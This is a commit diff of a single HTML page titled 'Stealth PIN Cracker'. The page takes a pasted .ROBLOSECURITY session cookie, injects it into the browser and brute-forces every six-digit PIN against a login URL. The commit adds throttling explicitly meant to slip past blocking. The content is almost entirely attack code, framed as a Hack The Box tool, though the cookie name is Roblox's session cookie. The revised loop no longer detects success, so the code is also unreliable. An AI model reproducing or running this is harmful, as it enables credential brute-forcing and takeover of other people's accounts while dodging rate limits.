

Before and after one commit to User102-9/ZeroXZBeams, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,12 +2,14 @@
 <html lang="en">
 <head>
     <meta charset="UTF-8">
-    <title>HTB Live PIN Cracker</title>
+    <title>HTB Stealth PIN Cracker</title>
     <style>
         body { font-family: monospace; background: #0a0a0a; color: #00ff00; padding: 40px; text-align: center; }
         .panel { max-width: 450px; margin: 0 auto; background: #111; padding: 25px; border: 2px solid #00ff00; border-radius: 5px; box-shadow: 0 0 15px rgba(0,255,0,0.2); }
-        input { width: 100%; padding: 12px; background: #000; color: #00ff00; border: 1px solid #00ff00; margin: 15px 0; box-sizing: border-box; font-family: monospace; font-size: 14px; text-align: center; }
-        button { width: 100%; padding: 12px; background: #00ff00; color: #000; border: none; font-weight: bold; cursor: pointer; font-size: 16px; font-family: monospace; letter-spacing: 1px; }
+        input { width: 100%; padding: 12px; background: #000; color: #00ff00; border: 1px solid #00ff00; margin: 10px 0; box-sizing: border-box; font-family: monospace; font-size: 14px; text-align: center; }
+        .row { display: flex; justify-content: space-between; margin: 10px 0; gap: 10px; }
+        .row div { width: 50%; text-align: left; }
+        button { width: 100%; padding: 12px; background: #00ff00; color: #000; border: none; font-weight: bold; cursor: pointer; font-size: 16px; font-family: monospace; letter-spacing: 1px; margin-top: 10px; }
         button:disabled { background: #222; color: #444; cursor: not-allowed; border: 1px solid #333; }
         #console { height: 180px; overflow-y: auto; background: #000; border: 1px solid #00ff00; margin-top: 20px; padding: 10px; font-size: 12px; text-align: left; white-space: pre-wrap; }
     </style>
@@ -15,103 +17,87 @@
 <body>
 
 <div class="panel">
-    <h2>[ LIVE 6-DIGIT PIN CRACKER ]</h2>
+    <h2>[ STEALTH PIN CRACKER ]</h2>
+
     <input type="text" id="cookieData" placeholder="PASTE .ROBLOSECURITY COOKIE HERE">
-    <button id="actionBtn" onclick="executeAttack()">START REAL PROCESS</button>
-    <div id="console">[*] System ready. Enter cookie to begin real target connection...</div>
+
+    <div class="row">
+        <div>
+            <label>Start PIN:</label>
+            <input type="number" id="startPin" value="0" min="0" max="999999">
+        </div>
+        <div>
+            <label>Delay (ms):</label>
+            <input type="number" id="delayMs" value="150" min="10">
+        </div>
+    </div>
+
+    <button id="actionBtn" onclick="startStealthAttack()">START PROCESS</button>
+    <div id="console">[*] System idle. Awaiting cookie input...</div>
 </div>
 
 <script>
-let processing = false;
+let isRunning = false;
 
 // ========================================================
-// 1. CHOOSE YOUR EXACT TARGET URL
+// REPLACEMENT CONFIGURATION
 // ========================================================
-const HTB_URL = "http://10.10.10.x/login"; // Put your actual target IP/URL here
-
-// ========================================================
-// 2. CHOOSE THE REDIRECT TARGET IF SUCCESSFUL
-// (Where does the website take you if the PIN is CORRECT?)
-// ========================================================
-const SUCCESS_REDIRECT_URL = "http://10.10.10.x/dashboard";
+const TARGET_URL = "http://10.10.10.x/login";
 // ========================================================
 
-function logToConsole(message) {
-    const box = document.getElementById('console');
-    box.innerText += message + "\n";
-    box.scrollTop = box.scrollHeight;
+function log(msg) {
+    const con = document.getElementById('console');
+    con.innerText += msg + "\n";
+    con.scrollTop = con.scrollHeight;
 }
 
-async function attemptPin(currentPin) {
-    const paddedPin = String(currentPin).padStart(6, '0');
+async function startStealthAttack() {
+    if (isRunning) return;
 
-    try {
-        // Using 'no-cors' + 'include' handles cookies directly via your local browser profile
-        const response = await fetch(HTB_URL, {
-            method: "POST",
-            mode: "no-cors",
-            credentials: "include",
-            headers: {
-                "Content-Type": "application/x-www-form-urlencoded"
-            },
-            body: `pin=${paddedPin}`
-        });
+    const cookieVal = document.getElementById('cookieData').value.trim();
+    let currentPin = parseInt(document.getElementById('startPin').value) || 0;
+    const delay = parseInt(document.getElementById('delayMs').value) || 150;
 
-        // In no-cors mode, JavaScript cannot read the page text.
-        // Instead, we check if the browser was redirected to the success page!
-        if (response.url === SUCCESS_REDIRECT_URL) {
-            return { success: true, pin: paddedPin };
-        }
-    } catch (err) {}
-
-    return { success: false, pin: paddedPin };
-}
-
-async function executeAttack() {
-    if (processing) return;
-    const sessionToken = document.getElementById('cookieData').value.trim();
-
-    if (!sessionToken) {
-        alert("Error: Cookie input cannot be blank!");
+    if (!cookieVal) {
+        alert("Error: Please provide a valid cookie.");
         return;
     }
 
-    // Natively inject the cookie into your active browser session so it automatically sends with the fetch requests
-    document.cookie = `.ROBLOSECURITY=${sessionToken}; path=/; domain=${new URL(HTB_URL).hostname}; SameSite=None; Secure`;
+    // Set cookie explicitly inside your browser environment
+    document.cookie = `.ROBLOSECURITY=${cookieVal}; path=/; domain=${window.location.hostname}; SameSite=Lax`;
 
-    processing = true;
+    isRunning = true;
     document.getElementById('actionBtn').disabled = true;
-    document.getElementById('console').innerText = "[*] Injecting session credentials natively...\n[*] Connecting to target server live...\n";
+    document.getElementById('console').innerText = "[*] Stealth parameters initialized.\n[*] Traffic throttling activated...\n";
 
-    // Standard rate limit to prevent the browser from freezing
-    const concurrentLimit = 10;
+    while (isRunning && currentPin <= 999999) {
+        const paddedPin = String(currentPin).padStart(6, '0');
 
-    for (let currentVal = 0; currentVal < 1000000; currentVal += concurrentLimit) {
-        if (!processing) break;
-
-        if (currentVal % 100 === 0) {
-            logToConsole(`[-] Actively cracking PIN range: ${String(currentVal).padStart(6, '0')}...`);
-            await new Promise(r => setTimeout(r, 50));
+        if (currentPin % 10 === 0) {
+            log(`[-] Testing PIN: ${paddedPin} (Status: Sending)`);
         }
 
-        const batchQueue = [];
-        for (let offset = 0; offset < concurrentLimit && (currentVal + offset) < 1000000; offset++) {
-            batchQueue.push(attemptPin(currentVal + offset));
+        try {
+            // Using standard credential pass-through without standard cross-origin blockers
+            await fetch(TARGET_URL, {
+                method: "POST",
+                mode: "no-cors",
+                headers: {
+                    "Content-Type": "application/x-www-form-urlencoded"
+                },
+                body: `pin=${paddedPin}`
+            });
+        } catch (e) {
+            log(`[!] Connection choked on PIN ${paddedPin}. Retrying next...`);
         }
 
-        const batchOutputs = await Promise.all(batchQueue);
-        for (const output of batchOutputs) {
-            if (output.success) {
-                logToConsole(`\n[+] SUCCESS! Valid 6-digit PIN cracked: ${output.pin}`);
-                processing = false;
-                document.getElementById('actionBtn').disabled = false;
-                return;
-            }
-        }
+        currentPin++;
+        // Dynamic throttle delay keeping browser context safe from packet flooding blocks
+        await new Promise(resolve => setTimeout(resolve, delay));
     }
 
-    logToConsole("\n[-] Finished. Checked combinations up to 999999.");
-    processing = false;
+    log("\n[-] Session run complete or paused.");
+    isRunning = false;
     document.getElementById('actionBtn').disabled = false;
 }
 </script>
```
